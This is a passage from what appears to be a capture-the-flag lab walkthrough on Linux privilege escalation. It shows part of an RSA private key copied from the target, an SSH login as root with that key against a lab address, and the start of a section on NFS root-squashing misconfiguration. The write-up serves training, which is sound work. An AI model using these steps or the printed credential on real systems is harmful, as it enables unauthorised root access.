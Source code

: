 ```text
U7LXiuDNcl5u+Pihbv73rPNZOsixkklb5t3Jg1OcvvYcL6hMRwLL4iqG8YDBmlK1
Rg1CjY1csnqTOMJUVEHy0ofroEMLf/0uVRP3VsDzAoGBAIKFJSSt5Cu2GxIH51Zi
SXeaH906XF132aeU4V83ZGFVnN6EAMN6zE0c2p1So5bHGVSCMM/IJVVDp+tYi/GV
d+oc5YlWXlE9bAvC+3nw8P+XPoKRfwPfUOXp46lf6O8zYQZgj3r+0XLd6JA561Im
jQdJGEg9u81GI9jm2D60xHFFAoGAPFatRcMuvAeFAl6t4njWnSUPVwbelhTDIyfa
871GglRskHslSskaA7U6I9QmXxIqnL29ild+VdCHzM7XZNEVfrY8xdw8okmCR/ok
X2VIghuzMB3CFY1hez7T+tYwsTfGXKJP4wqEMsYntCoa9p4QYA+7I+LhkbEm7xk4
CLzB1T0CgYB2Ijb2DpcWlxjX08JRVi8+R7T2Fhh4L5FuykcDeZm1OvYeCML32EfN
Whp/Mr5B5GDmMHBRtKaiLS8/NRAokiibsCmMzQegmfipo+35DNTW66DDq47RFgR4
LnM9yXzn+CbIJGeJk5XUFQuLSv0f6uiaWNi7t9UNyayRmwejI6phSw==
-----END RSA PRIVATE KEY-----
```
```console
chmod 600 root_key
```
![SSH Private Key Copied](../../assets/images/thm/linuxprivesc/66-ssh_key_copied.png)

We can now SSH into the machine using the private key as root. Note that for this task, the private key does not have a password configured. In most sceneries, a private SSH key would have been configured with a password which would need to be cracked using *John the Ripper*.

```console
ssh -i root_key root@10.10.114.180 -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa
```
Also note that due to the age of the machine, we needed to add additional parameters indicating the key type and algorithm which aren't necessarily required for more modern systems.

![SSH PrivEsc](../../assets/images/thm/linuxprivesc/67-ssh_privesc.png)

## Task 19 - NFS
Files created via NFS inherit the remote user's ID. If the user is root, and *root squashing* is enabled, the ID will instead be set to the *nobody* user.

In our task, we can check the NFS share configuration on the machine using the following command:

```console
cat /etc/exports
```